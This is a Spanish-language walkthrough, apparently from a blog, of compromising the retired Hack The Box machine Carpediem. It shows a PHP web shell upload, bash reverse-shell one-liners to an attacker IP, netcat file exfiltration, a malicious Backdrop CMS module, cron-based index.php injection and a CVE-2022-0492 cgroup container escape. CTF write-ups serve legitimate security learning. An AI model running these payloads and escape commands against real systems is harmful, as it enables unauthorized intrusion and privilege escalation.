


---------------


"Carpediem es una máquina de dificultad 'difícil', que ya ha sido retirada de la plataforma Hack The Box. En ella, creé un formulario de subida de archivos en HTML, con ayuda de ChatGPT, para explotar una vulnerabilidad de subida de archivos. Encontré un archivo con una API key que utilicé para abusar de la API de Trudesk, lo que me permitió leer un ticket que contenía credenciales para Zoiper. Con esas credenciales, me conecté por SSH. Aproveché las Capabilities de tcpdump para capturar tráfico y exploté la vulnerabilidad Cipher Suite (TLS_RSA_WITH_AES_256_CBC_SHA256 en TLSv1.2), obtuve la clave y el certificado para descifrar el tráfico. De ahí obtuve credenciales para acceder a Backdrop, donde instalé un nuevo módulo malicioso que me dio acceso a un contenedor. Escalé privilegios en el contenedor explotando una tarea cron y finalmente utilicé el CVE-2022-0492 (Container Escape via Cgroups) para escapar del contenedor.

-----------------------
# [](#header-1)Reconocimiento
Comienzo con un nmap para saber que puertos se encuentran abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.167 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-24 10:07 -03
Initiating SYN Stealth Scan at 10:07
Scanning 10.10.11.167 [65535 ports]
Discovered open port 22/tcp on 10.10.11.167
Discovered open port 80/tcp on 10.10.11.167
Completed SYN Stealth Scan at 10:08, 15.24s elapsed (65535 total ports)
Nmap scan report for 10.10.11.167
Host is up, received user-set (0.20s latency).
Scanned at 2024-09-24 10:07:53 -03 for 15s
Not shown: 65177 closed tcp ports (reset), 356 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
- *-p-*: escanear todo el rango total de puertos(65535)
- *--open*:Reportar puertos abiertos, ya que los puertos pueden estar cerrado o filtrados.
- *-sS*:TCP SYN port scan, este es un modo para ir de forma rápido agresivo a la vez que sigiloso
- *--min-rate 5000*:Le indicamos que queremos que nos tramite paquetes nomas lento que 5000 paquete por segundo
- *-vvv*: Triple vervose para que puerto que nos detecte abierto nos lo vaya reportando sobre la marcha
- *-n*: Para no aplicar resolución DNS
- *-Pn*: Omitir la prueba de ping y simplemente escanea todos los hosts de destino proporcionados
- *-oG*:Para que nos cree un archivo grepeable, para poder filtrar por lo que nos interese mediante el empleo de expresiones regulares

Veo que tiene el puerto 22, 80 por lo tanto voy a hacer un escaneo mas exhaustivo sobre estos puertos
```bash
❯ nmap -p22,80 -sCV 10.10.11.167 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-24 10:09 -03
Nmap scan report for 10.10.11.167
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:21:76:f7:2d:c5:f0:4e:e0:a8:df:b4:d9:5e:45:26 (RSA)
|   256 b1:6d:e3:fa:da:10:b9:7b:9e:57:53:5c:5b:b7:60:06 (ECDSA)
|_  256 6a:16:96:d8:05:29:d5:90:bf:6b:2a:09:32:dc:36:4f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Comming Soon
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- *-p22,80*: Le indicamos que queremos escanear los puerto 22,80
- *-sCV*: Le indicamos con que queremos lanzar un script básicos de reconocimiento y, detectar la versión y servicios que corren para los puertos 20,80
- *-oN*: Exportarlo en forma normal tal y como nos lo reporta Nmap

En la web no veo nada interesante, solo muestra un nombre de dominio por lo que se debe estar aplicando virtual hosting, vere si agregando este dominio al `/etc/hosts` veo algo diferente


Porque de primera nuestra maquina no sabe lo que es `carpediem.htb`


Con `whatweb` ver que tecnologías esta corriendo por detrás pero no veo nada interesante
```bash
❯ whatweb http://carpediem.htb
http://carpediem.htb [200 OK] Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.167], Meta-Author[Pawel Zuchowski], Script[text/javascript], Title[Comming Soon], X-UA-Compatible[ie=edge], nginx[1.18.0]
```
Pero veo que sigo viendo lo mismo por lo tanto intentare fuzzear primero por directorios existentes para ver si descubro algo interesante y también veré si existe algun subdomino 


Por los directorios no veo nada interesante por lo que proseguiré por ver si existe algún subdominios 
```bash
❯ gobuster dir -u http://carpediem.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://carpediem.htb/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 178] [--> http://carpediem.htb/img/]
/scripts              (Status: 301) [Size: 178] [--> http://carpediem.htb/scripts/]
/styles               (Status: 301) [Size: 178] [--> http://carpediem.htb/styles/]
```
Tuve que quitar los resultados que contenían 2875, y con esto consegui el subdominio `portal.carpediem.htb` por lo que lo agregue al  `/etc/hosts`  


Veré primero que tecnologías corren detrás de de este subdominio, veo que utiliza `PHP 7.4` por lo que si llego a conseguir subir algún código malicioso en PHP puede ser que nos lo llegue a interpretar 
```bash
❯ whatweb http://portal.carpediem.htb
http://portal.carpediem.htb [200 OK] Bootstrap[4], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.167], JQuery, PHP[7.4.25], Script, Title[Motorcycle Store Portal], X-Powered-By[PHP/7.4.25], nginx[1.18.0]
```
Al entrar en la pagina web veo una tienda de motos, y al ver por las motos en la url veo `view_bike y id` que el id se ve raro como si fuera un hash `MD5` 


Lo primero que intente fue introducir un ' para ver si se acontecía un `SQLI`, si se acontece pero no encuentro nada interesante


La `SQLI` funciona ya que efectivamente el hash que vemos esta en `MD5` el cual es un numero para cada imagen de motos que existe en este caso el 1


`p=` parece estar apuntando a archivos residentes en un directorio de la máquina víctima, lo cual es propenso a un ataque LFI, si intento cargar  el `/etc/passwd`


veo que primeramente no me hace nada, pero si le agrego un null byte para que no concatene la extensión PHP, pero este solo nos da un error el cual nos leakea una ruta existente, pero de resto esto no nos lleva a nada porque constantemente dan errores y tampoco podemos ver este archivo index.php ya que tampoco nos lo permite utilizando wrappers


De resto en la pagina veo un login y nos deja registrarme , por lo tanto a esto lo voy a interceptar con burpsuite


veo que se esta tramitando una petición por `POST` que apunta a la ruta `classes/Master.php?f=register`  no vemos nada interesante en esta petición de registro pero puede que exista otros archivos con extensión PHP, por lo tanto voy a fuzzear e intentar encontrar algún archivo existente 


Al fuzzear por archivos PHP, veo que existe `login.php` y `Users.php` asilado a esto como vi que existe un parametro `f`  que puede ser de function en este caso register o igual es otra cosa, podría probar sobre `Users.php`  a concatenarle este parámetro y fuzzear por potenciales valores que puede tener asignado a nivel de función y poder descubrir algo interesante


```bash
wfuzz -c --hl=8,12 --hh=0,305 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/direcotory-list-2.3-medim.txt "http://portal.carpediem.htb/classes/Users.php?f=FUZZ"
```
 Con esto obtengo upload, por lo tanto me voy aprovechar de la peticion que tengo y la modificar la ruta a la cual se esta tramitando la peticion


Al enviar la petición veo que me da un error `multipart\/form-data`, este error nos indica que esta esperando un formulario de subida de archivo


### Explotación
Por lo tanto lo que hice fue crear formulario de subida de archivo en HTML con ayuda de `ChatGPT` 
```html
<form action="/upload_file" method="post" enctype="multipart/form-data">
	 <input type="file" name="my_file" />
	 <input type="submit" value="subir archivo"/>
</form>
```
Montarme un servidor con Python 
```bash
 python3 -m http.server 80
```
e interceptar la petición 


Por lo tanto copio la solicitud del formulario y agrego el `Content-Type`


Veo que al enviarlo no me da un error, el cual es que no encuentra `file_upload` ya que en el formulario se llama `my_file` 


Por lo tanto al editarlo veo que si se sube el archivo, y nos da la ruta de donde se sube 


veo esto en la navegador y efectivamente nuestro archivo si se sube exitosamente


Por lo tanto como interpreta PHP, intentare subir un archivo PHP el cual nos permite ejecutar comandos
```php
<?php system($_GET['cmd']); ?>
```


Veo que se sube e interpreta por lo tanto solo quedaría enviarme una revershell



```bash
bash -c "bash >%26 /dev/tcp/10.10.16.6/443 0>%261"
```
Me pongo en escucha por el puerto 443 y recibo la revershell


Por lo tanto realizo el tratamiento de la TTY para tener una consola totalmente interactiva
```bash
www-data@3c371615b7aa:/var/www/html/portal/uploads$ script /dev/null -c bash 
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@3c371615b7aa:/var/www/html/portal/uploads$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
					   reset xterm
www-data@3c371615b7aa:/var/www/html/portal/uploads$ export TERM=xterm
www-data@3c371615b7aa:/var/www/html/portal/uploads$ stty rows 28 columns 129
```
### [](#header-3)User
Veo que me encuentro en un contenedor, por lo tanto voy a buscar la manera de escapar o si es que encuentro algo interesante


Encontré un archivo interesante que es Trudesk.php el cual contiene el subdominio `trudesk.carpediem.htb`, una `apikey` y nombrede usuario `svc-portal-tickets`


Veo que existe un panel de login, voy a investigar  que es [Trudesk](https://culturalibre.ar/2022/10/06/te-muestro-truedesk-un-sistema-de-ticket-gratuito-sobre-docker/) 


Veo que en la documentación nos habla de la  [Api](https://docs.trudesk.io/v1/api/) de Trudesk, por lo tanto como tengo la apikey con la cual nos podemos loguear como nos lo indica la documentación 
```bash

curl -s -X GET http://trudesk.carpediem.htb/api/v1/login -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq
```
Veo que el usuario con el que me loguea es el que nos indicaba en el archivo que encontramos, también veo que este usuario no es administrador 


Otra cosa que intente fue ver si me permitía  ver otros usuarios pero con este `accesstoken` no tiene ese privilegio
```bash
curl -s -X GET http://trudesk.carpediem.htb/api/v1/users -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq
```


Intente ver los tickets lo cual si me lo permite pero como no conozco cuales son tickets validos voy a tener que fuzzear por ellos 
```bash
curl -s -X GET http://trudesk.carpediem.htb/api/v1/tickets/1 -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq
```


```bash
seq 1 2000 | xargs -P50 -I {} curl -s -X GET http://trudesk.carpediem.htb/api/v1/tickets/{} -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq
```


Voy a tener que grepear por los resultados que no contengan Invalid ticktes, false y {}
```bash
seq 1 2000 | xargs -P50 -I {} curl -s -X GET http://trudesk.carpediem.htb/api/v1/tickets/{} -H "accesstoken:f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" | jq | grep -vE "Invalid Ticket|false|{|}"
```


Encontré un ticket el cual me indica que utilice  [zoiper](https://www.zoiper.com/en/voip-softphone/download/current) e ingrese con el `ID 9650` y el pin code `2022`, por lo tanto lo descargo e instalo 


Inicio sesión con el ID que me indica en el ticket 9650@carpediem.htb


También indicaba que se tenia que llamar al `*62` al hacerlo, escuchamos un mensaje donde nos da la password para conectarnos por `SSH` 


- Nota: Hola, Horance. ¡Bienvenido a bordo! Sin duda, necesitábamos más ingenieros de red para ayudar con la infraestructura. Tu cuenta está lista para funcionar. Tu contraseña es AuRj4pxq9qPk. Restablécela lo antes posible, así como el código PIN de tu teléfono. Avísame si tienes algún problema. Robert.

Y en los tickets encuentro que el usuario Horace Flaccus, el cual como usuario a nivel de sistema es `hflaccus` 


Por lo tanto me conecto por `SSH`
```bash
ssh hflaccus@10.10.11.167
```
y ya puedo ver la flag de usuario 
```bash
hflaccus@carpediem:~$ cat user.txt 
**********************efdfc8a1
```

### [](#header-3)Root
Ahora veré la manera de escalar privilegios a root, veo que el usuario `hflaccus` tiene asignado la capability cap_net_admin y cap_net_raw+eip para tcpdump con lo cual esto nos puede permitir capturar trafico, por lo tanto como existe un contenedor veré que hay por la interfaz docker0
```bash
hflaccus@carpediem:~$ getcap / -r 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Al hacer `ip a` veo varias interfaces pero por el momento lo que me interesa es la interfaz docker0
```bash
hflaccus@carpediem:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:43:95 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.167/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb0:4395/64 scope global dynamic mngtmpaddr 
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb0:4395/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:e9:1b:ce:31 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:e9ff:fe1b:ce31/64 scope link 
       valid_lft forever preferred_lft forever
5: veth21e6125@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether fa:fb:63:92:8a:17 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::f8fb:63ff:fe92:8a17/64 scope link 
       valid_lft forever preferred_lft forever
7: vethd8e34ac@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether de:ec:ad:f6:9a:01 brd ff:ff:ff:ff:ff:ff link-netnsid 2
    inet6 fe80::dcec:adff:fef6:9a01/64 scope link 
       valid_lft forever preferred_lft forever
9: veth300f456@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether f2:84:e9:37:99:f4 brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::f084:e9ff:fe37:99f4/64 scope link 
       valid_lft forever preferred_lft forever
11: veth9ae5593@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 4e:12:ee:48:54:6e brd ff:ff:ff:ff:ff:ff link-netnsid 3
    inet6 fe80::4c12:eeff:fe48:546e/64 scope link 
       valid_lft forever preferred_lft forever
13: veth044e0ed@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether a6:a5:40:97:d5:e7 brd ff:ff:ff:ff:ff:ff link-netnsid 4
    inet6 fe80::a4a5:40ff:fe97:d5e7/64 scope link 
       valid_lft forever preferred_lft forever
```
También me mire por los puertos que se encuentran abiertos internamente y veo que existen varios puertos que son el 8000,8001,8002


Al hacerle curl al localhost por el puerto 8002 veo algo interesante, por lo tanto hare un local portforwarding mediante SSH


```bash
ssh -L 8002:127.0.0.1:8002 hflaccus@10.10.11.167
```
Con esto puedo ver la pagina y veo que existe [Backdrop CMS](https://documentacionhoy.com/contents/news/2017-07-31/backdrop-cms-un-gestor-de-contenidos-que-merece-la-pena-tomar-en) pero necesito credenciales para loguearme porque veo que no se esta reutilizando credenciales


Pero como en la maquina host puedo  ponerme en escucha con tcpdump ya que cuento con los privilegios, me pondré en escucha por la interfaz docker0 para ver si existe algún tipo de trafico que esta maquina o las maquinas entre si se estén enviando, entonces me voy a /tmp con tcpdump una vez que llega a 200 o mas de trafico captura, transfiero la captura a mi maquina de atacante
```bash
hflaccus@carpediem:/tmp$ tcpdump -i docker0 -w captura.cap -v
```


```bash
#Maquina victima
nc 10.10.16.6 4444 < captura.cap
#maquina atacante
nc -nlvp 4444 > captura.cap
```
Entonces la captura del trafico la abrimos con wireshark 
En peticiones SSL suele haber una petición primeriza como hello que inicia la comunicación y se comparten cosas, extesiones, versiones, protocolos y demás, y es interesante ver lo que se esta empleando y en función de lo que se emplee podemos llegar a hacer algo 


vemos que se esta empleando RSA y en TLS_RSA_WITH_AES_256_CBC_SHA256, buscamos esto para ver si supone un riesgo


y por lo visto esto se considera [inseguro](https://ciphersuite.info/cs/TLS_RSA_WITH_AES_256_CBC_SHA256/), porque no soporta [PFS](https://ciberseguridad.com/guias/prevencion-proteccion/perfect-forward-secrecy-pfs/) , por lo tanto si obtengo el voy a poderdescifrar el trafico.
Por lo tanto en la maquina victima buscare con find, todo lo que contenga la palabra backdrop, y encuentro key y crt
```bash
hflaccus@carpediem:/tmp$ find / -name *backdrop* 2>/dev/null
/etc/ssl/certs/backdrop.carpediem.htb.key
/etc/ssl/certs/backdrop.carpediem.htb.crt
/usr/share/icons/Humanity/apps/24/xfce4-backdrop.svg
/usr/share/icons/Humanity/apps/48/xfce4-backdrop.svg
/usr/share/icons/Humanity/apps/128/xfce4-backdrop.svg
```
por lo tanto ahora me transfiero los archivo a mi maquina
```bash
scp hflaccus@10.10.11.167:/etc/ssl/certs/backdrop\* .
```


Ahora en wireshark, agrego el archivo `.key` 


En una de las peticiones por HTTP podemos ver la contraseña y el usuario


Por lo cual con estas credenciales nos logueamos en el backdrop


Veo que se puede instalar módulos, por lo tanto subiré un modulo que contenga un PHP malicioso 


Intente subir simplemente el php pero veo que no me deja, por lo tanto buscare por módulos


Encontré [Modules de Backdrop](https://backdropcms.org/modules) yo lo hare con ShortCode, por lo tanto lo descargo


Lo descomprimo 


y creo un php malicioso que me permita ejecutar comandos


comprimo todo de nuevo y lo subo 
```bash
zip -r shortcode.zip shortcode
```


Veo que se sube y se instala, por lo tanto la ruta a la que debo buscar seria `/modules/shortcode/cmd.php`


Veo que si me lo interpreta, como puedo ejecutar comandos me enviare una revershell 


Veo que nuevamente estamos en otro contenedor, por lo tanto vuelvo hacer un tratamiento de la TTY para tener una consola completamente interactiva


al ver por los procesos que se están ejecutando, veo una tarea cron donde root ejecuta `heartbeat.sh` 
```bash
ps -eo user,command
```


veo que este script primero esta haciendo un checksum donde si `backdrop.sh` no es igual al hash en `MD5` de backdrop.sh el script termina aquí por lo tanto a backdrop.sh no lo puedo editar.
Este script de backdrop.sh se utiliza para montar backdrop.


```bash
www-data@90c7f522b842:/var/www/html/backdrop$ md5sum /var/www/html/backdrop/core/scripts/backdrop.sh
70a121c0202a33567101e2330c069b34  /var/www/html/backdrop/core/scripts/backdrop.sh
```
Como cada vez que se ejecuta el script, el archivo `index.php` se restaura e `index.php`es propiedad de www-data, por lo que puedo editarlo, por lo tanto voy a intentar agregar una linea al final con la cual me envié una revershell 
```bash
echo -e '#!/bin/bash \n\nbash -i >& /dev/tcp/10.10.16.6/443 0>&1' > reverse
echo 'system("bash /dev/shm/reverse");' >> /var/www/html/backdrop/index.php
```
Veo que al esperar un momento me envía la revershell y ahora estamos dentro del contenedor como root 


Buscando como escapar de los contenedores encontré algo [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/docker-release_agent-cgroups-escape)  que me puede servir pero al intentar el primer comando veo que no me funciona 
```bash
root@90c7f522b842:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
mkdir: cannot create directory '/tmp/cgrp': File exists
```
Esto se debe a que no tenemos la capability sys_admin asignada pero buscando veo que el [CVE-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)  nos explica como podemos asignarnos esta capability
```bash
root@90c7f522b842:~# set `cat /proc/$$/status | grep "CapEff:"` ; capsh --decode=$2
0x00000000a00425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
root@90c7f522b842:~# set `cat /proc/$$/status | grep "CapEff:"` ; capsh --decode=$2 | grep sys_admin
```


Solo tenemos que aplicar el siguiente comando
```bash
unshare -UrmC bash
```


Ahora si ya podemos aplicar los comandos para cambiar los permisos a SUID de la bash, recomiendo ejecutar todos los comandos a la vez ya que haciéndolo uno por uno, en mi caso me daba un error de que el directorio x no existía 
- Nota: En el articulo del CVE-2022-0492, explica bien esta manera de escapar de docker con Cgroups
```bash
root@90c7f522b842:/tmp# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo 'chmod u+s /bin/bash' >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```


Una vez ejecutado los comandos vemos que en la maquina tenemos los permisos SUID de la bash


Por lo tanto ya podemos hacer bash -p y visualizar la flag de root.
```bash
hflaccus@carpediem:/tmp$ bash -p
bash-5.0# cat root.txt 
*****************4a21d527
```
